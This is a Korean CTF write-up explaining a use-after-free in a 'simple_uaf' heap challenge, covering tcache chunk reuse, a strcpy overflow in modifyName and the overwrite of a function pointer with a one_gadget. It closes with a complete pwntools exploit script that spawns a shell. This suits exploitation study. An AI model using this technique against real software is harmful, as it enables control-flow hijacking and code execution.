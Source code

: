 # simple_uaf
### #UAF

어렵지않은 UAF 취약점 문제이다. 

실행 시 모습은 아래와 같다.

![play_init](../../.images/simple_uaf1.png)

일반 UAF 문제와 같은 포맷인듯하다.

문제가 친절한 점은 도움이 될만한 주소를 먼저 leak 해준다는 것이다.

![system_addr](../../.images/simple_uaf2.png)

해당 주소는 libc 상의 `system` 함수 실제 주소에서 `system` 함수 오프셋을 뺀 주소로, 다시말해서 `libc_base` 주소를 나타낸다.

> 바이너리 상에서 추출해주는 주소를 보니 끝에 **개행문자(0xa0)** 가 자꾸 주소에 붙어나오는 것을 발견할 수 있었는데, 이 때문에 나중에 libc_base 주소를 받아올 때 개행문자를 떼고 0x100 을 해주어 정확한 libc_base 를 맞춰주었다.

이 `libc_base` 주소만 알면, 나중에 쉘을 실행시킬 때 **one_gadget** 을 이용하여 간편하게 쉘을 실행시킬 수 있을 것이다.

---

## UAF는 어디에서?

개인적으로 heap 문제들은 취약점이 나올만한 부분을 찾는게 너무 큰 일이다.

대부분 함수도 많고, 로직도 복잡하니...

아무튼 바이너리의 작동 구조를 간략히 설명해보겠다.

**add person** 을 선택하면, `malloc(48)` 을 통해 heap 공간을 부여받고 해당 48 바이트 안에 `setConstructor()` 와 `personConstructor()` 함수를 통해 person 구조체에 대한 정보들을 기입한다. **(`personConstructor()` 는 구조체에 삽입된 채로 실행된다.)**

이 때, name 문자열과 int 형의 age 그리고 해당 구조체를 수정하고 삭제하고 출력할 수 있는 함수들을 **함수포인터** 형식으로 넣는다.

그리고 함수들까지 삽입이 완료되면, 해당 person 구조체의 heap 주소는 전역배열인 `list` 배열에 하나씩 쌓여간다. 

모식도로 정리하면 아래와 같다.

![struct](../../.images/simple_uaf3.png)

이게 person 구조체 하나의 모습이다.

여기서 눈여겨 보고가야할 것은 **name** 이 들어갈 heap 영역을 새로 할당받을 때, 길이가 99가 넘느냐 마느냐이다. 넘지않는다면, `malloc` 의 크기를 99바이트 안에서는 자유자재로 할 수 있기 때문에 중요하게 보고 넘어갔다.

그리고 바로 해당 heap 영역을 해제하는 로직을 보았다. 위 구조체의 `personDestuctor()` 함수에서 이 기능을 수행한다.

![main_delete](../../.images/simple_uaf5.png)

*[main함수에서 해제 돌입하는 부분]*

![personDestruct](../../.images/simple_uaf6.png)

*[deletePerson함수 내부]*

![personDestruct](../../.images/simple_uaf4.png)

*[personDestuctor함수 내부]*

우선 처음에 `main` 함수 switch 문을 보면, **list** 에 요소가 들어가있는 idx 에 따라 해제할 곳을 선정한다.  그리고 free 를 진행하는데, 해제 과정이 뭔가 부자연스럽다고 해야할까...? 이 부분도 중요하게 보았다.

그리고 마지막으로 볼 부분은 수정을 담당하는 modifyName 이다.

main함수에서 idx에 따라 참조하는 것은 똑같고 본 함수를 눈여겨보자.

![modifyName](../../.images/simple_uaf7.png)

*[modifyName 함수 내부]*

다른 입력기능은 모두 strncpy 로 `bof` 혹은 `oob write` 를 방지하고있다. 그러나 이 부분은 `strcpy()` 를 통해 `char* name` 에 문자열을 덮어씌운다.

이는 충분히 공격벡터에 쓰일 수 있는 취약점이다.

그러면 여기까지 알아본 것들로 공격벡터를 조합해보자.

---

만약 `addPerson` 에서 **name** 의 길이가 47 이 되도록 하면 어떻게 될까?

![atk1](../../.images/simple_uaf8.png)

`personConstructor()` 의 이 부분을 다시 보면, 48 바이트의 heap 공간이 **name** 용으로 추가할당 되는 것으로 알 수 있다.

그러면, 최초 할당된 청크로 보면 아래와 같은 상태일 것이다.

![atk2](../../.images/simple_uaf9.png)

gdb 에서 확인하면 아래와 같다.

![atk3](../../.images/simple_uaf11.png)
![atk4](../../.images/simple_uaf10.png)

원래 위 처럼 순차적으로 할당이 되어야 정상적인 코드일 것이다.

하지만, 여기서 `free` 되는 순서를 다시돌아보자. `free` 는 앞에서 보다시피

`person 구조체 -> 해당 구조체의 name 영역`

순으로 해제가 되었다.

그러면 해제된 청크로 간주되어 어떠한 **bin** 에든지 들어갈 것이다.

해당 청크는 크기가 그리 크지않으므로 **tcache** 영역에 들어간다.

![atk5](../../.images/simple_uaf12.png)

여기서 다시 `addPerson` 으로 name 길이 47 의 영역을 똑같이 할당한다면?

![atk6](../../.images/simple_uaf13.png)
![atk7](../../.images/simple_uaf14.png)

위와 같이 **name** 의 공간으로 쓰던 두 번째 청크가 person 구조체의 청크로 할당되고, person 구조체의 청크로 쓰이던 첫 번째 청크가 **name** 의 공간으로 할당되었다.

그림으로 표현하자면 이런 모습.

![atk8](../../.images/simple_uaf15.png)

이렇게 되면, 못해도 99바이트까지는 수정을 할 수 있는 `modifyName()` 함수에서 **name** 을 바꿀 때 **name** 을 넘어서 person 구조체의 요소들까지 건드릴 수 있게된다.

필자는 아래와 같이 `printInfo()` 함수포인터를 조작하려고한다.

![atk9](../../.images/simple_uaf16.png)

![atk9](../../.images/simple_uaf17.png)

쉘은 **one_shot gadget** 의 도움을 받아서 실행하였다.

### **\<payload>**

```python
# simple_uaf exploit

from pwn import *
one2=0x10a45c
def menu(fd,num):
    fd.recvuntil("> ")
    fd.sendline(str(num))

s=process("./simple_uaf")
shell_off=0x4F440
s.recvuntil("You will thank you for this : ")
libc_base=int(s.recv(12),16)*0x100
log.info("[+]libc_base : "+hex(libc_base))

menu(s,1)
s.recvuntil(": ")
s.sendline("a"*47)
s.recvuntil(": ")
s.sendline("12")

menu(s,3)
s.recvuntil(": ")
s.sendline("0")

menu(s,1)
s.recvuntil(": ")
s.sendline("b"*47)
s.recvuntil(": ")
s.sendline("2")

menu(s,2)
s.recvuntil(": ")
s.sendline("1")
s.recvuntil(": ")
s.sendline(b"a"*88+p64(libc_base+one2))
s.recvuntil(": ")
s.sendline("3")

menu(s,4)
s.recvuntil(": ")
s.sendline("1")
s.interactive()
```


.

.

.

**Contact :** a42873410@gmail.com